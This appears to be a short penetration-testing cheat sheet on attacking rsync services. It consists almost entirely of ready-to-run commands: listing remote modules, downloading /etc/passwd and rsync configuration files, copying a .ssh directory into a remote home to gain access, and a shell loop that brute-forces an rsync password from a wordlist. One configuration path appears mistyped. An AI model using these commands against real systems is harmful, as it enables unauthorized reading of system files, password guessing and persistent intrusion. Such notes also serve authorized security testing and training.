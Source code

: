 ```yaml
---
title: "rsync"
date: 2024-7-12
tags: ["rsync"]
---
```


### Basic Commands

```console
# List directory ('/')
rsync --list-only -a rsync://<TARGET>/
```

```console
# List directory ('/') with ipv6
rsync --list-only -a rsync://[<TARGET_IPV6>]:8730/
```

```console
# List a file
rsync --list-only -a rsync://<TARGET>/etc/passwd
```

```console
# List files (wildcard)
rsync --list-only -a rsync://<TARGET>/etc/rsync*
```

```console
# Get a file
rsync -a rsync://<TARGET>/etc/passwd .
```

```console
# Get files (wildcard)
rsync -a rsync://<TARGET>/etc/rsync* .
```

```console
# Copy files recusively to remote (With Creds)
export RSYNC_PASSWORD='<PASSWORD>'; rsync -aR .ssh/ rsync://<USER>@<TARGET>/home_user/
```

---

### Bruteforce rsync password

```console
# Get user from /etc/passwd, Get module from /etc/rsyncrsyncd.conf (e.g. user user and module home_user)
cat passwords.txt | while read password; do export RSYNC_PASSWORD=${password}; rsync --list-only rsync://user@<TARGET>/home_user 2>&1 | grep -q "auth failed on module home_user" || { echo "[+] Found: ${RSYNC_PASSWORD}"; break; } done
```
